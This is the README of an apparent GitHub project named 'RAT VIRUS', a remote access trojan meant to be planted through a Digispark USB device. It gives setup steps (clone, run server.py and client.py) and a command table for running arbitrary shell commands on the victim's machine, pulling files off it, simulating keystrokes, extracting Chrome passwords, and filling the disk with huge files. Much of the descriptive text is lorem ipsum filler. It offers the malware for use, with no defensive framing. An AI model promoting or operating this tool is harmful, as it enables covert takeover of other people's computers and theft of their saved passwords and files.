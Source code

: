 # RAT VIRUS

```
   _____  ____  _____  ______ _   _    _____ _    _          __  __ _      ____  _    _ 
  / ____|/ __ \|  __ \|  ____| \ | |  / ____| |  | |   /\   |  \/  | |    / __ \| |  | |
 | (___ | |  | | |__) | |__  |  \| | | (___ | |__| |  /  \  | \  / | |   | |  | | |  | |
  \___ \| |  | |  _  /|  __| | . ` |  \___ \|  __  | / /\ \ | |\/| | |   | |  | | |  | |
  ____) | |__| | | \ \| |____| |\  |  ____) | |  | |/ ____ \| |  | | |___| |__| | |__| |
 |_____/ \____/|_|  \_\______|_| \_| |_____/|_|  |_/_/    \_\_|  |_|______\____/ \____/ 
```

Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum.

![alt text](https://github.com/soren2007/rat-virus/blob/master/image.jpg?raw=true)

## INSTALLATION

### 1. Clone the repository

```bash
git clone https://github.com/Soren2007/rat-virus.git
```

### 2. Read 'DIGISPARK-RAT-INSTALLER' repository

[DIGISPARK-RAT-INSTALLER.git](https://github.com/Soren2007/digispark-rat-installer) 

### 3. Run 'server.py' file

```bash
python server.py
```

### 4. Run 'client.py' file ro connect digispark usb


```bash
python client.py
```

## COMMANDS

|    Row     |   Commad    | Description | Example |
|    :---:   |    :---:    |    :---:    |    :---:    |
|      1     |     cmd!command     | Run cmd commad | cmd!ipconfig |
|      2     |     gf!file_path     | Download and save the file | gf!C:\Users\uname\Desktop\file.pdf |
|      3     |     hk!keyname1+keyname2     | Press key or hotkey | hk!win+a |
|      4     |     cpe!get     | Get chrome passwords | cpe!get |
|      5     |     gwun!get     | Get windows username | gwun!get |
|      6     |     lfv!file_path|size_mg     | Create large file  | lfv!C:\Users|10000 |
|      7     |     sf!file_path     | Send file  | sf!C:\Users\uname\Desktop\file.pdf |


### 1. CMD



## EXAMPLES

[![Watch the video](https://github.com/Soren2007/rat-virus/blob/master/poster.jpg)](https://darsmanco.ir/media/images/temp/Example.mp4)

